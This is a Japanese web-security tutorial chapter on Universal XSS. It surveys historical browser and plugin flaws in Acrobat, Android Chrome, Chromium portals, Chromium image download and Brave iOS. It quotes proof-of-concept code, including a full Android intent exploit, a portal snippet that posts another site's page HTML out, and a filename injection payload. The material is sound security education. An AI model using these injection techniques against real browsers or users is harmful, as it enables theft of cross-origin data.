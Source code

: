 ```yaml
---
sidebar_position: 12
---
```


# 最強のXSS：Universal XSS

これまで説明したXSSの脆弱性は、ほとんどがウェブサイト自体の過失によって引き起こされ、攻撃者がウェブサイト上でJavaScriptコードを実行できるようになるものでした。

しかし、タイトルが示唆するように、さらに強力な別の種類のXSSがあります。

理由は単純です。この種類のXSS攻撃は、ウェブサイト自体ではなく、ブラウザまたは組み込みのプラグインを標的とするからです。

ブラウザの脆弱性であるため、ウェブサイト自体に問題がある必要はありません。純粋な静的ウェブページでもXSSに対して脆弱になる可能性があります。ブラウザを攻撃することで達成される影響は、「どのウェブサイトでもコードを実行できる能力」です。したがって、この種類の攻撃はUniversal XSS、略してUXSSと呼ばれます。

では、UXSSの脆弱性はどのように発生するのでしょうか？いくつかの例を見てみましょう。

## 2006年のFirefoxのAdobe Acrobatプラグイン

[Subverting Ajax](https://fahrplan.events.ccc.de/congress/2006/Fahrplan/attachments/1158-Subverting_Ajax.pdf)というタイトルの論文で、Firefoxを標的としたUXSSが説明されています。

FirefoxのAdobe Acrobatプラグインには、パラメータを適切にチェックしない脆弱性がありました。PDFを読み込む際に、URLに `#FDF=javascript:alert(1)` というパラメータを追加することで、そのPDF内でXSSを実行できました。

例えば、`https://example.com/test.pdf#FDF=javascript:alert(1)` です。このURLを読み込むだけで、`https://example.com` というオリジン上でJavaScriptコードが実行され、これがUXSSとして知られています。

元の論文には詳細な情報が記載されていませんでしたが、 underlying principle は、プラグインが `FDF` パラメータによって渡された値を使用して `window.open` などの関数を実行し、`javascript:` 疑似プロトコルを使用してコードを実行できるようにすることだと推測しています。

## 2012年のAndroid ChromeのUXSS

2012年、Takeshi氏は脆弱性を報告しました：[Issue 144813: Security: UXSS via com.android.browser.application_id Intent extra](https://bugs.chromium.org/p/chromium/issues/detail?id=144813)。

Androidの世界には、「インテント」と呼ばれるものがあり、これは「意図」を表します。例えば、新しい画面を開きたい場合は、「新しい画面を開きたい」というインテントを送信します。

Chromeを開いて特定のページを閲覧したい場合は、この意図に基づいて対応するコードを記述できます。

```java
// 新しいインテントを宣言します
Intent intent = new Intent("android.intent.action.VIEW");

// インテントはChromeアプリ用です
intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");

// URLを設定します
intent.setData(Uri.parse("https://example.com"));

// インテントを送信します
startActivity(intent);
```

2012年、誰かが最初に `https://example.com` を開き、次に `javascript:alert(1)` を開くことで、`https://example.com` のURL上でコードを実行できることを発見し、UXSSの脆弱性が発生しました。

完全なコードは次のとおりです（元のレポートからのコード）。

```java
package jp.mbsd.terada.attackchrome1;

import android.app.Activity;
import android.os.Bundle;
import android.content.Intent;
import android.net.Uri;

public class Main extends Activity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        doit();
    }

    public void doit() {
        try {
            // まず、ChromeアプリにターゲットのWebページを開かせます
            Intent intent1 = getIntentForChrome("http://www.google.com/1");
            startActivity(intent1);

            // 数秒待ちます
            Thread.sleep(5000);

            // ターゲット（www.google.com）に注入するJSコード
            String jsURL = "javascript:alert('domain='+document.domain)";

            Intent intent2 = getIntentForChrome(jsURL);

            // Chromeが新しいURLを新しいタブで読み込むのを防ぐためのトリックが必要です
            intent2.putExtra("com.android.browser.application_id", "com.android.chrome");

            startActivity(intent2);
        }
        catch (Exception e) {}
    }

    // Chromeアプリを呼び出すためのインテントを取得します
    public Intent getIntentForChrome(String url) {
        Intent intent = new Intent("android.intent.action.VIEW");
        intent.setClassName("com.android.chrome", "com.google.android.apps.chrome.Main");
        intent.setData(Uri.parse(url));
        return intent;
    }
}
```

## 2019年のChromiumのportalを介したUXSS

2019年、Michał Bentkowski氏は脆弱性を報告しました：[Issue 962500: Security: Same Origin Policy bypass and local file disclosure via portal element](https://bugs.chromium.org/p/chromium/issues/detail?id=962500&q=sop%20bypass&can=1)。このUXSSは、最新機能である `<portal>` を介して実行されました。

この脆弱性の原因は、前述のAndroidのケースと似ています。以下にコードスニペットの例を示します（元のレポートから）。

```js
const p = document.createElement('portal');
p.src = 'https://mail.google.com';
// しばらくしてから：
p.src = 'javascript:portalHost.postMessage(document.documentElement.outerHTML,"*")';
// 上記のコードはhttps://mail.google.comのコンテキストで実行されます
```

ポータル内にURLを読み込んだ後、`javascript:` を読み込むと、以前に読み込んだURLのオリジンでJavaScriptが実行されることになります。言い換えれば、任意のURLでJavaScriptを実行できるため、UXSSとなります。この脆弱性には10,000ドルの報奨金が支払われました。

## 2021年のChromiumの画像ダウンロードによってトリガーされるUXSS

Chromiumで画像を右クリックしてダウンロードを選択すると、ChromiumはバックグラウンドでJavaScriptコードの一部を動的に実行します。これは、次のような内部JavaScript関数を呼び出します。

```js
__gCrWeb.imageFetch.getImageData(id, '%s')
```

ここで、`%s` は画像のファイル名です。ただし、このファイル名は適切にフィルタリングされていなかったため、ファイル名が `'+alert(1)+'` の場合、コードは次のようになります。

```js
__gCrWeb.imageFetch.getImageData(id, ''+alert(1)+'')
```

これにより、`alert(1)` が実行されます。もちろん、任意のコードに置き換えることができます。`alert(1)` は単なる例です。

さらに、iframeを使用してドメインBを埋め込むドメインAがある場合、ドメインBで画像をダウンロードすると、この動的に生成されたJavaScriptコードはトップレベルウィンドウ、つまりドメインAのウィンドウで実行されます。

言い換えれば、この脆弱性を悪用することで、iframeを使用して別のドメインに攻撃URLを埋め込むことができれば、そのドメインで任意のコードを実行でき、UXSSが発生します。

元のレポートとPoCは、西村宗晃氏が報告したレポートを参照してください：[Issue 1164846: Security: ImageFetchTabHelper::GetImageDataByJs allows child frames to inject scripts into parent (UXSS)](https://bugs.chromium.org/p/chromium/issues/detail?id=1164846)

## BraveブラウザiOSアプリの複数のUXSS

BraveはChromiumベースのプライバシー重視のブラウザであり、JavaScriptの生みの親であるBrendan Eich氏によって設立されました。BraveのiOSアプリには、日本のセキュリティ研究者である西村宗晃氏によって複数のUXSS脆弱性が発見されています（上記のChromiumのUXSSも彼が報告しました）。

これらの脆弱性の原因は、前述のものと似ています。アプリ自体がJavaScriptコードを動的に実行し、入力が適切にフィルタリングされていないためにUXSSが発生しました。

例えば、次のようなコードの一部があるかもしれません。

```swift
self.tab?.webview?.evaluateJavaScript("u2f.postLowLevelRegister(\(requestId), \(true), '\(version)')")
```

そして、`version` 変数を制御できます。同時に、このスクリプトはトップレベルで実行されるため、サブフレームは親を攻撃し、他のオリジンでXSSを実行できます。

詳細については、西村宗晃氏のプレゼンテーションを参照してください：[Brave Browserの脆弱性を見つけた話（iOS編）](https://speakerdeck.com/nishimunea/brave-browsernocui-ruo-xing-wojian-tuketahua-iosbian)

## まとめ

このようなUXSSは、通常、ウェブサイト自体では制御できません。なぜなら、脆弱性はウェブサイトではなく、ブラウザ自体にあるからです。

ブラウザにとって、これは実際には重大な脆弱性です。考えてみてください。攻撃者がUXSSを悪用した場合、Gmailを読んだり、Facebookのメッセージを読んだり、すべてのデータを持ち去ったりすることができます。これは非常に恐ろしい状況です。

ユーザーとしてできることは、ブラウザを常に最新バージョンに更新し、ベンダーがこれらの脆弱性を迅速に修正することを願うことだけです。
